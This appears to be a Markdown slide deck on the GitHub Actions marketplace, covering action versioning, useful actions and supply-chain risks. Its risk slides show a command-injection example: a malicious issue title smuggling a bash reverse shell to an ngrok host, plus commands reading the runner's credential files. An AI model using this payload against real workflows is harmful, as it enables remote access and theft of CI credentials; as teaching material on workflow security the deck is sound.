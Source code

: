 <!-- .slide: class="with-code" -->
# What is the marketplace

* List of free and paid tools
* GitHub Actions and Apps
* Anyone can share their apps
* Anyone can publish an action in GitHub Marketplace

Notes:
eg. paid : https://github.com/marketplace/wip
* only apps owned by organizations can sell their app

Gaetan

##==##
<!-- .slide: -->

# How to use

* https://github.com/marketplace?type=actions

![float-left w-800](./assets/images/githubsearch.png)

![float-right w-800](./assets/images/githubaction_marketplace_action.png)

Notes: 

Demo direct sur la marketplace

Gaetan

##==##
<!-- .slide: class="with-code" -->

# Use an GitHub Action from the marketplace

## Using versioned actions

```yaml
steps:
  # Reference a specific commit
  - uses: actions/checkout@a81bbbf8298c0fa03ea29cdc473d45769f953675
    
  # Reference the major version of a release
  - uses: actions/checkout@v3
    
  # Reference a specific version
  - uses: actions/checkout@v3.2.0
    
  # Reference a branch
  - uses: actions/checkout@main
```

<br> 
<br> 

## Using actions with parameters
```yaml
- name: Inject slug/short variables
  uses: rlespinasse/github-slug-action@v4
  with:
    short-length: 8
    prefix: CI_
```

Notes:

Gaetan

##==##
<!-- .slide: -->
# Usefuls actions

* [`actions/checkout`](https://github.com/marketplace/actions/checkout)

  * allow to checkout a repository 
  * github_token, ref, depth, path, ... customization

* [`actions/setup`](https://github.com/marketplace?type=actions&query=setup+)

  * allow to install a tool
  * provided by github and others
  * setup-java, setup-go, setup-node, setup-terraform, ....

* [`actions/dependency-review-action`](https://github.com/marketplace/actions/dependency-review)
  * scans pull requests for dependency changes and raise an error if vulnerabilities found.

Notes:

Gaetan

##==##
<!-- .slide: -->

# Risk

* Credential stealing
  * Opportunistic
  * Intentional
* Any maintainer can update a branch or a tag
* Runner credential stealing 

Notes:
Opportunistic - sensitive information is accidentally output to the log and an attacker finds it and uses it
Intentional - an attacker is able to insert a program into your workflow that steals credentials and sends them to the attacker
Use SHA-1 instead of version

Thibauld

##==##
<!-- .slide: class="with-code" -->

# Example

* step of our Github Actions

```yaml
      - run: |
         echo "ISSUE TITLE: ${{github.event.issue.title}}"
         echo "ISSUE DESCRIPTION: ${{github.event.issue.body}}"
```

* Simple issue name that trigger our Action
```yaml
New malicious issue title" && bash -i >& /dev/tcp/8.tcp.ngrok.io/15063 0>&1 && echo "
```

Notes:

ngrok to make a backdoor

Thibauld

##==##
<!-- .slide: class="with-code" -->

* Credential 

```yaml
$ cat /home/runner/runners/2.287.1/.credentials
{"data":{"token":"REDACTED"},"scheme":"OAuthAccessToken"}
```

* Runner's data 

```yaml
$ cat /home/runner/runners/2.287.1/.runner
{
  "AgentId": "1",
  "AgentName": "Hosted Agent",
  "PoolId": "2",
  "ServerUrl": "https://pipelines.actions.githubusercontent.com/REDACTED/",
  "SkipSessionRecover": "True",
  "IsHostedServer": "True",
  "workFolder": "_work",
  "WorkFolder": "/home/runner/work",
  "MonitorSocketAddress": "127.0.0.1:49100"
}
```

Notes:

Thibauld
